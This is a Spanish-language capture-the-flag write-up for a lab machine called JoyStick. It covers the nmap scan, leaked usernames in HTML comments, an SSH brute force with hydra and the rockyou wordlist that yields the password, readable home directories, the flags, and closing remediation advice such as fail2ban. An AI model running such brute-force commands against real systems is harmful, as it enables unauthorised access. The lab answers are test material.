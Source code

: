 # JoyStick
Room Sencillita ,un poco disgusting ya que es solo bruteforcing
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c7:ce:5d:fa:24:68:3a:10:63:f9:28:1b:f4:6d:e5:bc (RSA)
|   256 6b:7b:f5:12:e0:db:bb:b0:ca:f8:f8:c0:84:bc:27:e6 (ECDSA)
|_  256 1b:d4:20:23:d0:5b:32:16:ad:c2:a9:cd:99:1c:e6:6e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: JoyStick Gaming
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enum

### HTTP

```html
<!-- Zach, I don't care that you named your user steve. You still need to finish making the website -->
<!-- Great, and now the FTP server just doesn't work. Just another great idea after	your failed irc chat. Why would we use that when we have in game chat? 
Not to mention that I know you still haven't reset your password.  -->
```

Por lo que se ve tenemos un usuario llamado Steve con creds faciles de averiguar

### SSH

Vamos a hacerle bruteforcing
```
hydra -l steve -P rockyou.txt 10.10.101.140 -t 16 ssh
[22][ssh] host: 10.10.101.140   login: steve   password: changeme
```

Accedemos con las creds y ya tenemos acceso a la primera flag
```
flag{is_only_gaem}
```
## Privesc

```
root:x:0:0:root:/root:/bin/bash
notch:x:1000:1000:Notch,,,:/home/notch:/bin/bash
minecraft:x:1001:1001:Mine,,,:/home/minecraft:/bin/bash
```
Tras enumerar usuarios me di cuenta de qeu tenia acceso a los otros /home, en el de Notch hay un root.txt

Lo podemos leer y así conseguir la otra flag

```
flag{poorly_configured_permissions}
```
# Analisis de la intrusión
### SSH Bruteforcing allowed
No existe ningún tipo de medida para evitar ataques por fuerza bruta contra el servidor 
### Bad password police
Se ha permitido el uso de contraseñas poco seguras a los usurios lo cual ha permitido ejecutar un ataque de fuerza bruta con exito

# Soluciones
### SSH Bruteforcing allowed
Utilizar algún tipo de protección como fail2ban en el servidor sería altamaente recomendables de cara a evitar este tipo de ataques
